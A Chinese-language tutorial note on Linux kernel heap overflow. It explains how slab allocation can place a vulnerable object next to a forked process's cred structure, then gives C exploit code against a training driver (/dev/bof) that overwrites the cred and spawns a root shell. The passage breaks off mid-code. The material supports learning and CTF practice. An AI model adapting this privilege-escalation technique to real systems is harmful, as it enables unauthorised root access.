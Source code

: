 Heap Overflow
=============

[查看slab缓存的使用](https://www.cnblogs.com/arnoldlu/p/10769376.html)或者sudo slabtop能动态查看

排布溢出修改 cred
-----------

溢出修改 cred ，和前面 UAF 修改 cred 一样，在新版本失效。因为不在同一个cache中，导致内存不一定相邻了

kalloc会自动调整大小，可以查看/proc/slabinfo来得知，一般是往上调大。  
这里一般利用分配的大小和cred的大小在一个kmem-cache中，然后分配一部分使得slub中的freelist中的object地址保持连续，使得接下来的这两个也保持连续就可以达到溢出的效果，或者利用分配大量的相同的大小的kmem-cache，然后当free掉其中一个。再fork可能申请到的就是这个刚刚free的，然后这个刚刚free的前面的会与之相邻

### exp

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <sys/wait.h>

struct param {
    size_t len;    // 内容长度
    char *buf;     // 用户态缓冲区地址
    long long idx; // 表示 ptr 数组的 索引
};

int main(void) {
    int bof_fd = open("/dev/bof", O_RDWR);
    if (bof_fd == -1) {
        puts("[-] Failed to open bof device.");
        exit(-1);
    }
    struct param p = {0xa8, malloc(0xa8), 0};
    ioctl(bof_fd, 5, &p);  // malloc

    puts("[*] clear heap done");

    p.idx=1;
    ioctl(bof_fd, 5, &p);  // malloc

    ioctl(bof_fd, 7, &p); // free

    int pid = fork();
    if (pid < 0) {
        puts("[-] fork error");
        exit(-1);
    }

   p.len=0xc0 + 0x28;
   p.buf=malloc( 0xc0 + 0x28);
   p.idx=0;
    memset(p.buf, 0, p.len);
    ioctl(bof_fd, 8, &p);
    if (!pid) {
        size_t uid = getuid();
        printf("[*] uid: %zx\n", uid);
        if (!uid) {
            puts("[+] root success");
            system("/bin/sh");
        } else {
            puts("[-] root fail");
```